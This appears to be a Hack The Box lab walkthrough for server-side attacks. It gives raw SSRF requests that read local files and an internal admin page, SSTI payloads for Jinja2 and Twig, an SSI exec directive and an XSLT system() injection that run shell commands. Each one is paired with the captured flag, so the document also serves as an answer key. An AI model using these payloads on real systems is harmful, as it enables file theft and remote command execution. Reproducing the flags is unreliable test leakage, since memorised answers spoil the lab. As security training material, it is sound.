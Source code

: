 

# Identifying SSRF

```json
POST /index.php HTTP/1.1
Host: 10.129.201.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.201.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.129.201.127
Connection: close
Priority: u=0

dateserver=file:///flag.txt&date=2024-01-01
```

answer: 

```json
HTTP/1.1 200 OK
Date: Sun, 01 Sep 2024 10:36:02 GMT
Server: Apache/2.4.59 (Debian)
Content-Length: 37
Connection: close
Content-Type: text/html; charset=UTF-8

HTB{911fc5badf7d65aed95380d536c270f8}
```

# Exploiting SSRF

```json
POST /index.php HTTP/1.1
Host: 10.129.3.29
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.3.29/
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://10.129.3.29
Connection: close
Priority: u=0

dateserver=http://dateserver.htb/admin.php&date=2024-01-01
```

answer:

```json
HTTP/1.1 200 OK
Date: Sun, 01 Sep 2024 10:55:02 GMT
Server: Apache/2.4.59 (Debian)
Vary: Accept-Encoding
Content-Length: 361
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin Dashboard</title>
</head>
<body>
    <div class="container">
        <h1>Admin Dashboard</h1>
        <h4>Hello Admin<h4>
        <p>HTB{61ea58507c2b9da30465b9582d6782a1}</p>    </div>
</body>
</html>
```

# Blind SSRF

answer : 5000


# Identifying SSTI

answer : Twig


# Exploiting SSTI - Jinja2

payload : {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}

answer: HTB{295649e25b4d852185ba34907ec80643}


# Exploiting SSTI - Twig

payload : {{ ['cat /flag.txt'] | filter('system') }}
answer : HTB{5034a6692604de344434ae83f1cdbec6}

# Exploiting SSI Injection

payload: <!--#exec cmd="cat /flag.txt" -->
answer: HTB{81e5d8e80eec8e961a31229e4a5e737e}

# Exploiting  XSLT Injection

payload: 
```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

answer: HTB{3a4fe85c1f1e2b61cabe9836a150f892}

# Skills Assessment

di sini saya mengidentifikasi kerentanan dengan nama SSRF

```json
POST / HTTP/1.1
Host: 94.237.49.212:42718
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:42718/
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://94.237.49.212:42718
Connection: close

api=file:///etc/passwd
```

payload
```json
POST / HTTP/1.1
Host: 94.237.49.212:42718
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:42718/
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://94.237.49.212:42718
Connection: close

api=file:///flag.txt
```

answer: HTB{3b8e2b940775e0267ce39d7c80488fc8}